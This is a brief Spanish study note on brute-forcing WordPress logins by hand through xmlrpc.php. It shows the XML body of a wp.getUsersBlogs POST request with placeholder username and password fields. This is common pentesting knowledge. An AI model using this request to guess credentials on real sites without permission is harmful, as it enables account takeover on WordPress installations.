 # XMLRPC

***

* Tags: #web #scripting #bash #herramientas #wordpress

***

Si quisiéramos aplicar fuerza bruta en un \[\[WordPress]] de la misma forma que hace \[\[Wpscan]] pero de forma manual para descubrir credenciales válidas. sería necesario tramitar una petición por el método POST al archivo **xmlrpc.php** tramitando una estructura XML tal que así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Usuario</value></param> 
<param><value>Contraseña</value></param> 
</params> 
</methodCall>
```
